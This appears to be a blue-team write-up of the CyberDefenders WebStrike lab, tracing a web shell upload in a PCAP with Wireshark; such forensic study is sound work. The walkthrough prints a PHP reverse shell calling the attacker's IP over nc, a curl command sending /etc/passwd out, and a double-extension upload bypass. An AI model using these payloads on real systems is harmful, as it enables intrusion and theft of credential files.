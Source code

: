# WebStrike - Lab 1: Investigating a Suspicious File Upload

A forensic walkthrough of malicious web activity captured via PCAP, analyzed using Wireshark to identify attacker behavior, uncover vulnerabilities, and determine the scope of unauthorized access.


## Demo Video


[Watch the Demo Video](https://youtu.be/c0VsVmQ7IYs)



## Lab Scenario

A suspicious file was discovered on a company web server. The Development team flagged the anomaly, and a PCAP file of the relevant network traffic was captured. Your task: trace the attacker's activity, understand how the file was uploaded, and determine what (if anything) was exfiltrated.


## Tools Used

- **Wireshark** (for full traffic analysis)
- **IP Geolocation** services
- **PCAP** file provided via Cyber Defenders
- Markdown and screenshots for documentation

---

## Summary of Findings

| Question | Answer |
|------------|-----------|
| **1. City of attack origin** | Tianjin |
| **2. Attacker's User-Agent** | `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` |
| **3. Name of malicious web shell** | `image.jpg.php` |
| **4. Upload directory** | `/reviews/uploads/` |
| **5. Outbound communication port** | `8080` |
| **6. File targeted for exfiltration** | `/etc/passwd` |

---

## Walkthrough

### 1. Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?

- Used **Wireshark** to analyze IPv4 endpoints  
  ![Endpoints in Wireshark](./images/endpoints-view.png)

- Identified `117.11.88.124` as external attacker IP  
- Verified geolocation using [ipgeolocation.io](https://ipgeolocation.io)  
  ![GeoIP Lookup Screenshot](./images/ip-geo.png)
- The attack originated from Tianjin, China
- **Answer** - Tianjin

---

### 2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?

- Followed the HTTP stream from the attacker:
  ![HTTP Stream](./images/user-agent-stream.png)

- Revealed full User-Agent:  
  `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
- **Answer** - `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
---

### 3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?

- Applied filter:  
  ```wireshark
  ip.src == 117.11.88.124 and http.request.method == "POST"
- Two upload attempts observed:
  - First failed: `image.php`
  - Second succeeded: `image.jpg.php`
    ![Successful Upload](./images/upload-success.png)
- The attacker successfully bypassed the server's validation by appending .jpg to the filename
- **Answer** - image.jpg.php
---

### 4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?

- File was successfully uploaded via `upload.php`
- Reviewed the server's HTTP response behavior
- Server returned `301 Moved Permanently`, redirecting to `/reviews/uploads/`
  ![303 Redirect](./images/301.png)
- Followed this redirect, `image.jpg.php` was accessible at that path
- The website stores uploaded files in the `/reviews/uploads/` directory
- **Answer** - `/reviews/uploads/`
---

### 5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

- Extracted PHP payload:
  ```php
  <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
- Indicates outbound connection to attacker on port 8080
- **Answer** 8080
---

### 6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

- Used Wireshark filter:
  ```wireshark
  tcp.port == 8080 and ip.src == 24.49.63.79
- Found `curl -X POST -d /etc/passwd http://117.11.88.124:443/` in the TCP stream
- The attacker was attempting to exfiltrate `/etc/passwd`
- **Answer** - `passwd`
---

## Lessons Learned

- Importance of proper file validation on upload endpoints
- How attackers use filename obfuscation to bypass filters
- Value of network traffic inspection during incident response
- How reverse shells exploit outbound connections
- Role of User-Agent and IP analysis in filtering and threat intel
---

## References

- [CyberDefenders – WebStrike Lab](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)
- [Wireshark](https://www.wireshark.org/)
- [ipgeolocation.io](https://ipgeolocation.io/)

